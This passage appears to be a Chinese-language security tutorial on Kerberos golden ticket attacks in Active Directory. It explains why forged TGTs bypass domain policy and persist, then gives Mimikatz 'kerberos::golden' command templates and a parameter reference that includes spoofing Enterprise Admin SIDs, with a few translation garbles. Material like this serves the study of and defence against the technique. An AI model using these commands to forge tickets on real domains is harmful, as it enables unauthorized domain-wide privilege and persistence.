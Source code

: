 由于在`域控制器`上由`KDC服务`生成`票证`时会在`票证`上设置`域Kerberos策略`，因此当提供`票证`时，`系统`会`信任票证`的`有效性`。这意味着即使`域策略`声明`Kerberos登录票证（TGT）`仅有效期为`10`个小时，如果`票证`声明其有效期为`10`年，则是`10`年。

该`KRBTGT帐户密码`从`不更改`* 和直到`KRBTGT密码被更改（两次）`，我们可以`创建黄金票`据。注意，即使`模拟`的`用户`更改了`密码`，为`模拟用户而创建的黄金票据也会保`留。

`黄金票据`可以绕过了`SmartCard身份验证`要求，因为它`绕过了DC`在创建`TGT`之前执行的`常规检查`。

`黄金票证（TGT）`可以在任何`计算机`上生成和使用，即使其中一台未加入`域`也是可以的。

当然我们也可以使用`Mimikatz`伪造`Kerberos`票证：

**1.2 Mimikatz 命令示例：**
----------------------

```
kerberos :: golden / admin：ADMIINACCOUNTNAME / domain：DOMAINFQDN / id：ACCOUNTRID / sid：DOMAINSID / krbtgt：KRBTGTPASSWORDHASH / ptt
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDA5DXibhcZibBZm7mvk0iaCBC5mG3sLC7Mn9aU4w722cIzLa8C2oCRyHLrCRSTdBeDibddwxSVooRrs6g/640?wx_fmt=png)

Mimikatz 创建黄金的命令是`“kerberos :: golden”`

```
mimikatz “kerberos::golden /domain:<域名> /sid:<域SID> /rc4:<KRBTGT NTLM Hash> /user:<任意用户名> /ptt" exit
```

```
/domain -----完整的域名，在这个例子中：“lab.adsecurity.org”

/ sid ----域的SID,在这个例子中：“S-1-5-21-1473643419-774954089-2222329127”

/ sids --- AD森林中账户/组的额外SID，凭证拥有权限进行欺骗。通常这将是根域Enterprise Admins组的“S-1-5-21-1473643419-774954089-5872329127-519”值。Ť 

 / user ---伪造的用户名

/ groups（可选）---用户所属的组RID（第一组是主组）。添加用户或计算机帐户RID以接收相同的访问权限。默认组：513,512,520,518,519为默认的管理员组。

/ krbtgt---域KDC服务帐户（KRBTGT）的NTLM密码哈希值。用于加密和签署TGT。

/ ticket（可选） - 提供一个路径和名称，用于保存Golden Ticket文件以便日后使用或使用/ ptt立即将黄金票据插入内存以供使用。

/ ptt - 作为/ ticket的替代品 - 使用它来立即将伪造的票据插入到内存中以供使用。

/ id（可选） - 用户RID。Mimikatz默认值是500（默认管理员帐户RID）。

/ startoffset（可选） - 票据可用时的起始偏移量（如果使用此选项，通常设置为-10或0）。Mimikatz默认值是0。

/ endin（可选） - 票据使用时间范围。Mimikatz默认值是10年（〜5,262,480分钟）。Active Directory默认Kerberos策略设置为10小时（600分钟）。

/ renewmax（可选） - 续订最长票据有效期。Mimikatz默认值是10年（〜5,262,480分钟）。Active Directory默认Kerberos策略设置为7天（10,080分钟）。

/ sids（可选） - 设置为AD林中企业管理员组（ADRootDomainSID）-519）的SID，以欺骗整个AD林（AD林中每个域中的AD管理员）的企业管理权限。

/ aes128 - AES128密钥

/ aes256 - AES256密钥

黄金票默认组：

域用户SID：S-1-5-21 <DOMAINID> -513

域管理员SID：S-1-5-21 <DOMAINID> -512

架构管理员SID：S-1-5-21 <DOMAINID> -518
```